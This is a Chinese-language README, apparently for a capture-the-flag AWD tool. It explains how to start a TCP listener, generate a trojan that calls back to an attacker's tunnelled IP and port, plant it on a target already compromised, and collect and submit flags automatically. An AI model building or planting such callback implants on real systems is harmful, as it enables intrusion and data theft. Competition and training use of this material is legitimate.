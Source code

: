 # 欢迎使用鑫启网安AWD自动获取flag工具
### 环境准备
首先，确保你的系统为linux的某种发行版
以ubuntu为例
通过以下命令安装python3
```sh
sudo apt-get install python3
```
通过以下命令安装gcc
```sh
sudo apt install build-essential
```
### 用法
首先，确保拿到对方的shell权限
在本地攻击机环境下运行以下命令，以开始tcp监听
```sh
python3 flag_handler.py
```
而后，在本地攻击机（linux）的环境下，使用flag_capture.py生成木马
在本地开启内网穿透，穿透12346端口（内网穿透的开启方法不做赘述）
假设在内网穿透的端口，将本地的127.0.0.1:12346穿透到111.111.111.111:2222，那么你应该以以下命令生成木马
```sh
python3 flag_capture.py 111.111.111.111 2222
```
接下来，在根目录下，你会得到一个名为时间戳的文件
将此文件上传至已取得shell权限的靶机，而后运行，即可在flag_handler.py的shell中自动获取flag
现在可以以get方式来自动化提交flag了，但是在flag_handler.py文件里边要改一下url